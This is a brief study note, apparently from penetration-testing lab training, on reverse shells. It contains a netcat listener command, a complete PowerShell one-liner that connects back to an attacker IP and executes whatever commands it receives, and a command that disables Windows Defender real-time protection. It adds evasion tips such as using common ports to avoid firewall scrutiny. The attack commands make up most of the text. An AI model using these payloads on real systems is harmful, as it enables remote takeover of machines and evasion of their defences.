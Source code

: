 Attack box have a listener running and then the target connects to it

It is easier to use this then bind shells because the admin will overlook outbound connections but might be harsher on inbound connections

www.revshells.com 

# NC Listener
we start a netcat listener on our attack box 
```
sudo nc -lvnp 443
```
use common ports so that it will be whitelisted

POwershell Command
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.46',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Before that we might have to disable virus & threat protection settings 
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

